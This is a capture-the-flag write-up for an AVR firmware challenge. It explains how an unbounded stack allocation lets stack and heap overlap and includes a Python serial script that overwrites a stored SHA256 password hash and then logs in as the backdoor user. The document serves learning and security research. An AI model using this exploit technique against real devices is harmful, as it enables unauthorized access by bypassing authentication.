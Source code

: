 ## Unauthorized (100)

### Description

Let's do something simple. This media unit has a Wifi access point and looks like remote access is possible. But only if you know the right password.

### Write-up

This task is a little bit more interesting, it contains some control-flow integrity parts and anti fault injection counter measures, which can be nice obstacles in real firmware.

![unauth](images/unauth1.png)

Here we can see function which takes number as parameter and returns pointer, with high probability that is *malloc*, and if we will look to [avr-libc](https://github.com/vancegroup-mirrors/avr-libc/blob/master/avr-libc/libc/stdlib/malloc.c) repository we can confirm this.

And among code in *malloc.c* we see one interesting comment:

	* Thus, all possible stack frames of interrupt routines that could
	* interrupt the current function, plus all further nested function
	* calls must not require more stack space, or they'll risk to collide
	* with the data segment.

Really?

The point is that during input processing we can specify input size which is dynamically allocated on stack without any limitation, using this unsafe feature we can easily overlap stack and heap segments and overwrite stored data.

Next we should look how authentication is done, among functions code we can see quite known constants (**0x6A09E667**) which means that SHA256 is used for password verification. All user hashes is allocated on heap and have constant position after startup, also we need to know is initial stack value , for this purpose we can count stack frames from initial startup and predict heap allocator, but we no need to suffer, because we can find all this using debugger, we used Atmel AVR Studio which is quite good for such tasks.

```python
target_address=0x3023-0x22  #location of pass hash (backdoor user)
sp_base=0x3ebf 				#taked from debugger
addr_diff=sp_base-target_address

with serial.Serial('/dev/ttyUSB0',115200,timeout=1) as tty:
    tty.write("\n")
    read_until(tty,"Expected format:")
    
    n1=len(pass_hash)
    n2=addr_diff-len(str(n1))-len(":")-len(str(addr_diff))-len(":")-n1
    
    print "send payload "+str(n1)+":"+str(n2)+":"+repr(pass_hash)
    tty.write(str(n1)+":"+str(n2)+":"+pass_hash+"1\n")
    read_until(tty,"Unknown user")
    
    print "send pass: "+str(len(usrname))+":"+str(len(pasw))+":"+usrname+pasw
    tty.write(str(len(usrname))+":"+str(len(pasw))+":"+usrname+pasw+"\n")
    read_until(tty,"Your flag is")
    print tty.readline()
```

So, we just send two command, first one overwrite stored hash and second one we successfully pass crafted authentication, we have another one flag and can move on to next challenge, full script can be found among files in github repository.
